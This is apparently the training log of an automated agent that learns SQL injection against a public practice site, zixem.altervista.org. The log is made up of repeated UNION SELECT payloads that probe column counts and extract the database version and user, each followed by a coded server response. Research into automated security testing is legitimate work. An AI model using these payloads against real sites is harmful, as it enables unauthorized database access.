https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1093/1000000 [6:36:55<7842:20:00, 28.26s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1094/1000000 [6:36:56<5649:36:26, 20.36s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1095/1000000 [6:36:57<4035:52:04, 14.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
http

  0%|          | 1096/1000000 [6:37:38<6234:15:03, 22.47s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'uni

  0%|          | 1097/1000000 [6:38:01<6269:33:26, 22.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1098/1000000 [6:38:02<4475:21:55, 16.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1099/1000000 [6:38:03<3216:03:44, 11.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 

  0%|          | 1100/1000000 [6:40:13<13019:08:52, 46.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1101/1000000 [6:40:15<9288:23:47, 33.48s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union

  0%|          | 1102/1000000 [6:41:17<11704:31:20, 42.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1103/1000000 [6:41:18<8269:03:02, 29.80s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1104/1000000 [6:41:19<5870:05:57, 21.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union sele

  0%|          | 1105/1000000 [6:41:47<6447:49:21, 23.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and

  0%|          | 1106/1000000 [6:42:45<9276:14:34, 33.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1107/1000000 [6:42:46<6592:03:23, 23.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1108/1000000 [6:42:47<4693:44:19, 16.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1109/1000000 [6:42:47<3322:01:20, 11.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1110/1000000 [6:42:48<2419:09:13,  8.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.

  0%|          | 1111/1000000 [6:43:16<4003:13:01, 14.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Serv

  0%|          | 1112/1000000 [6:43:29<3906:50:11, 14.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1113/1000000 [6:43:30<2811:40:19, 10.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1114/1000000 [6:43:31<2046:14:40,  7.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervis

  0%|          | 1115/1000000 [6:44:41<7278:18:23, 26.23s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2-

  0%|          | 1116/1000000 [6:45:54<11173:10:26, 40.27s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error

  0%|          | 1117/1000000 [6:46:05<8690:54:09, 31.32s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Qu

  0%|          | 1118/1000000 [6:46:33<8408:09:30, 30.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server respon

  0%|          | 1119/1000000 [6:46:49<7215:48:22, 26.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1120/1000000 [6:46:50<5125:45:55, 18.47s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1121/1000000 [6:46:51<3664:26:34, 13.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1122/1000000 [6:46:51<2643:43:11,  9.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 an

  0%|          | 1123/1000000 [6:47:56<7235:29:43, 26.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1124/1000000 [6:47:57<5142:03:53, 18.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1125/1000000 [6:48:02<3982:54:37, 14.35s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 union se

  0%|          | 1126/1000000 [6:48:31<5205:31:07, 18.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1127/1000000 [6:48:32<3725:56:57, 13.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1128/1000000 [6:48:33<2684:30:13,  9.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response i

  0%|          | 1129/1000000 [6:49:09<4933:26:31, 17.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1130/1000000 [6:49:10<3532:29:04, 12.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1131/1000000 [6:49:11<2555:26:29,  9.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1132/1000000 [6:49:12<1864:59:16,  6.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1133/1000000 [6:49:13<1389:13:27,  5.01s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1134/1000000 [6:49:14<1050:24:20,  3.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1135/1000000 [6:49:15<817:12:50,  2.95s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1136/1000000 [6:49:16<651:23:12,  2.35s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1137/1000000 [6:49:17<539:24:17,  1.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1138/1000000 [6:49:18<453:50:52,  1.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1139/1000000 [6:49:19<398:44:29,  1.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1140/1000000 [6:49:20<355:03:55,  1.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1141/1000000 [6:49:21<326:43:27,  1.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1142/1000000 [6:49:24<529:10:22,  1.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1143/1000000 [6:49:25<446:35:00,  1.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1144/1000000 [6:49:26<392:59:01,  1.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1145/1000000 [6:49:27<361:35:30,  1.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1146/1000000 [6:49:29<417:27:36,  1.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1147/1000000 [6:49:34<693:01:35,  2.50s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'unio

  0%|          | 1148/1000000 [6:50:32<5276:30:51, 19.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and

  0%|          | 1149/1000000 [6:50:52<5416:17:59, 19.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
